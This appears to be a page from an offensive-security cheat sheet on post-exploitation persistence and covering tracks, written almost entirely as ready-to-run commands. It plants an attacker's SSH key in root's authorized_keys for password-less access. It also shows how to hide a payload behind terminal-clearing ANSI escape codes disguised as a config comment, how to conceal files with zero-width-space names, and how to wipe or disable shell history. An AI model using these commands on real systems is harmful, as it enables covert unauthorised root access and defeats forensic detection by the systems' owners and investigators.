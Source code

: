 # SSH persistence password-less

```
kali@kali:~$ ssh-keygen

kali@kali:~$ cat:~/.ssh/id_rsa.pub
```

in the target shell type:

```
mkdir /root/.ssh
echo “rsa public key from kali machine” > /root/.ssh/authorized_keys
```

now login without password:

```
kali@kali:~$ ssh root@sandbox.local
```

## <mark style="color:red;">Tips</mark>

Hide the payload with ANSI chars, the following chars will clear the terminal when using cat to display the content of your payload.

```
#�[2J�[2J�[2J�[2H�[2A# Do not remove. Generated from /etc/issue.conf by configure.
```

Hide in plain sight using zero width spaces in filename.

```
touch $(echo -n 'index\u200D.php') index.php
```

Clear the last line of the history.

```
history -d $(history | tail -2 | awk '{print $1}') 2> /dev/null
```

Clear history:

```
[SPACE] ANY COMMAND
or
export HISTSIZE=0
export HISTFILESIZE=0
unset HISTFILE; CTRL-D
or
kill -9 $$
or
echo "" > ~/.bash_history
or
rm ~/.bash_history -rf
or
history -c
or
ln /dev/null ~/.bash_history -sf
```

The following directories are temporary and usually writeable

```
/var/tmp/
/tmp/
/dev/shm/
```
